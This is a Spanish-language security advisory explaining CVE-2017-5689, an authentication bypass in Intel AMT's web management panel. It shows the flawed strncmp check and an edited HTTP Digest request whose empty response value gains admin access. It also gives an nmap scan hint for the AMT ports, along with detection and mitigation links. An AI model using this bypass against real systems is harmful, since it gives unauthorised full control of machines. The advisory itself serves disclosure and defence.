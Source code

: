 ![Entry banner](http://i.imgur.com/PK2VyjZ.png "Entry banner")

# Authentication Bypass Intel's AMT (CVE-2017-5689)
---
## Ficha de vulnerabilidad
  %|%
------- | -------
**CVE:**            | CVE-2017-5689
**Severidad:**      | Critico
**Vector**          | [(AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
**Descubierto por:**| Maksim Malyutin from Embedi.
**Afecta a:**       | Intel's AMT Web-panel Interface
**Fuentes:**        | https://www.theregister.co.uk/2017/05/05/intel_amt_remote_exploit/
~                   | http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5689
~                   | https://www.embedi.com/files/white-papers/Silent-Bob-is-Silent.pdf
~                   | http://www.kb.cert.org/vuls/id/491375
**Exploit Disponible:** | Explotación mediante Proxy
**Fecha Exposición:** | 02/mayo/2017

## Resumen a alto nivel
---
La empresa Intel provee a ciertos equipos [(ver listado)](http://www.securityfocus.com/bid/98269/info) la capacidad de administrarlos mediante una interfaz web llamada Intel's AMT (Active Management Technology). Esta interfaz está presente en algunos equipos y es accesible desde la red. Al momento de acceder a esta interfaz web, la cual es independiente del sistema operativo, solicita las credenciales administrativas para iniciar sesión y tomar control del equipo, sin embargo Maksim Malyutin de Embedi encontró una vulnerabilidad que permite saltar esta autenticación y acceder directamente a la interfaz y tomar **completo control del servidor**.

Esta vulnerabilidad es de severidad **crítica** y puede comprometer de manera completa un servidor vulnerable a ella. Esta vulnerabilidad fue comprobada por el equipo de Cybertheat Chile y es bastante trivial de explotar.

### Contexto de ataque
Si un atacante es capaz de acceder vía red (Local o desde internet) a la interfaz web de Intel AMT tendrá control total del equipo en cuestión.

### Potenciales Servidores vulnerables en Latino América
Utilizando la información que posee el escaneador masivo [Shodan.io](https://www.shodan.io/), se detectan las siguientes  amenazas en Latino America:
![paises](http://i.imgur.com/L0OBMU3.png)

## Recomendación
Se recomienda realizar una inspección de todos los equipos y servidores de la compañía que pudiesen tener habilitado la interfaz web de Intel AMT y actualizar a la última versión disponible desde la página del fabricante.

# Explicación técnica
---
La vulnerabilidad reside en cómo el firmware encargado de publicar la aplicación web Intel AMT realiza la comprobación de contraseña. Sinceramente el ataque es bastante trivial. Vamos a la explicación.

Tal como se explicó en el resumen de alto nivel, existe una interfaz web (que no muchos están conscientes de que existe) la cual permite al usuario autenticado tener control completo del equipo, esto incluye reiniciar la máquina, reinstalar el sistema operativo base, acceder la consola e incluso tomar control remoto del equipo vía VNC. Lo interesante es que esta aplicación web existe de manera independiente al sistema operativo que esté ejecutando la máquina (Windows o Linux) ya que reside en el firmware del procesador.

Es posible acceder la interfaz web con cualquier browser desde la dirección `http://ip:16992` ó `http://ip:16993`, ya sea de manera local o remota. Al entrar en aquella dirección URL aparecerá un prompt de BASIC HTTP Authentication[(1)](https://en.wikipedia.org/wiki/Basic_access_authentication) la cual solicitará un usuario y contraseña para acceder a la interfaz administrativa.

El investigador de seguridad Maksim Malyutin hace años descubrió una vulnerabilidad en el sistema de autenticación mediante un proceso de ingeniería inversa (ver [white-paper](https://www.embedi.com/files/white-papers/Silent-Bob-is-Silent.pdf) para el detalle) la cual le permitió bypasear completamente el sistema de inicio de sesión y así tomar control de la interfaz web AMT de Intel.

Lo que descubrió Maksim fué la función encargada de realizar la comprobación de la contraseña llegando al siguiente código:
```C
if(strncmp(computed_response, user_response, response_length))
    exit(0x99);
```
Si inspeccionamos bien la función `strncmp` (ver [docs](https://helpmanual.io/man3/strncmp/)) en el código anterior lo que hace es verificar que la variable `compute_response` sea equivalente a `user_response`, representando `user_response` lo ingresado por el usuario y `compute_repsonse` lo que espera el servidor (hash de contraseña correcta), sin embargo la función comprobará hasta `n` caracteres indicado por la variable `response_lenght`, es acá donde se encuentra la vulnerabilidad.

El valor de `response_lenght` es calculado en base a la variable `user_response` enviada por el usuario, por lo que si se envía una contraseña de largo cero-bytes, internamente la variable `response_lenght` será igual a 0, indicando que no es necesario comparar ningún caracter y así, entregando acceso a toda la plataforma dado que `strncmp` retornará 0 y el `exit(0x99)` no se ejecutará y continuará su ejecución.

### Explotación
Si se analiza la respuesta el request enviado desde el web-cliente hacia el servidor encontraremos lo siguiente:

**Request HTTP normal:**
```http
GET /index.htm HTTP/1.1

Host: XXX.XXX.XXX.XXX:16992
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://XXX.XXX.XXX.XXX:16992/logon.htm
Connection: close

Authorization: Digest username="admin", realm="Digest:xxxxxxxxxxxx", nonce="OHgyVOyxVzHgqImVUNWkwgrZLhlGICkj", uri="/index.htm", response="XnFgD1KcOh4TcfFEeP05xcDSppwlfUH8 ", qop=auth, nc=00000001, cnonce="dTB7UCCOU3VRuq0w "
```

En el payload del request HTTP interesa la variable `response="XnFgD1KcOh4TcfFEeP05xcDSppwlfUH8"` que es la representación de la contraseña que acabamos de ingresar antes de interceptar el request. Si eliminamos el contenido y enviamos un response vació (`response=""`) la variable interna `response_lenght` será equivalente a cero y permitirá entrar a la interfaz administrativa.

**Request HTTP editado:**
```http
GET /index.htm HTTP/1.1

Host: XXX.XXX.XXX.XXX:16992
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://XXX.XXX.XXX.XXX:16992/logon.htm
Connection: close

Authorization: Digest username="admin", realm="Digest:xxxxxxxxxxxx", nonce="OHgyVOyxVzHgqImVUNWkwgrZLhlGICkj", uri="/index.htm", response="", qop=auth, nc=00000001, cnonce="dTB7UCCOU3VRuq0w "
```

**Web Compromise:**
![compromise](http://i.imgur.com/TgCZ8IA.png)
Así de simple, así de sencillo.


### Escenarios de ataque
Para que esto funcione necesitamos:
* Acceso remoto al equipo mediante el puerto `16992` o `16993` 
    > **hint: nmap -sS -p 16992,16993 -vv <host_ip>**
* Interceptar el request HTTP y eliminar el contenido de la variable response=""

### Detección de la vulnerabilidad
Intel publicó una aplicación para detectar la presencia del CVE-2017-5689, la cual puedes encontrar en el siguiente enlace: https://downloadcenter.intel.com/download/26755

### Mitigación
Se recomienda seguir la guía del fabricante INTEL: https://downloadcenter.intel.com/download/26754


